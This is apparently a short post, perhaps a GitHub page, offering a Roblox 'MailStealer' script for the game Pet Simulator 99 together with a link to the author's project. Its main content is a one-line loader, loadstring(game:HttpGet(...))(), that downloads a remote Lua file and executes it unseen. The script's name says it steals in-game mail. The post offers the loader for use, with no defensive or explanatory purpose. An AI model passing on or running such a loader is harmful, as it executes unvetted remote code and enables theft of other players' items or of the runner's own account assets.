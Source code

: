 my script ⬇️
loadstring(game:HttpGet("https://raw.githubusercontent.com/darkio-script/PS99_Mailstealer/main/MailStealer.lua"))()
my profile ⬇️
https://github.com/users/darkio-script/projects/1/views/4?filterQuery=Loadingstring&pane=issue&itemId=95195404
